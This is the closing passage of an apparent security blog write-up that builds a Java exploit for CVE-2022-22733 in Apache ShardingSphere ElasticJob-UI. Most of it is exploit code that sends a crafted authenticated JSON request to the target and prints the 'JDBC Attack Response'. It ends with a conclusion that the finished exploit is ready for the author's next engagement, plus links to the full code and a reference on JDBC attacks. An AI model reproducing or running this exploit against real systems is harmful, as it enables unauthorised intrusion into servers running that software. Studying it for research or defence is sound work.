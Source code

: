 ```
            con2.setRequestProperty("Accept-Language", "en-US,en;q=0.5");
            con2.setRequestProperty("Accept-Encoding", "gzip, deflate");
            con2.setRequestProperty("Content-Type", "application/json;charset=utf-8");
            con2.setRequestProperty("Access-Token", accessToken3);
            con2.setRequestProperty("Origin", "http://" + host + ":" + port);
            con2.setRequestProperty("DNT", "1");
            con2.setRequestProperty("Connection", "close");
            con2.setRequestProperty("Referer", "http://" + host + ":" + port + "/");
            con2.setDoOutput(true);


            DataOutputStream wr = new DataOutputStream(con2.getOutputStream());
            wr.writeBytes(requestBody);
            wr.flush();
            wr.close();

            int responseCode2 = con2.getResponseCode();
            System.out.println("[*] JDBC Attack Response Code : " + responseCode2);
            BufferedReader in2 = new BufferedReader(new InputStreamReader(con2.getInputStream()));
            String inputLine2 = "";
            StringBuffer response2 = new StringBuffer();

            while ((inputLine2 = in2.readLine()) != null) {
                response2.append(inputLine2);
            }
            in2.close();


            JSONObject jsonObject2 = new JSONObject(response2.toString());
            System.out.println("[*] JDBC Attack Response: " + jsonObject2);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

And here is our full code after the edits, let's try it out:

![](/assets/images/728ff6f5288f4df9f54de3dd662c5fe4)

&nbsp;

# **Conclusion**

Now, We have a full chain of the steps and created our exploit. We can now use it in our next coming engement when we find `Apache ShardingSphere ElasticJob-UI` running. You can find the full code on my github from [here](https://github.com/Zeyad-Azima/CVE-2022-22733).

## **Resources**

- https://pyn3rd.github.io/2022/06/06/Make-JDBC-Attacks-Brillian-Again-I/
    
- https://github.com/Zeyad-Azima/CVE-2022-22733
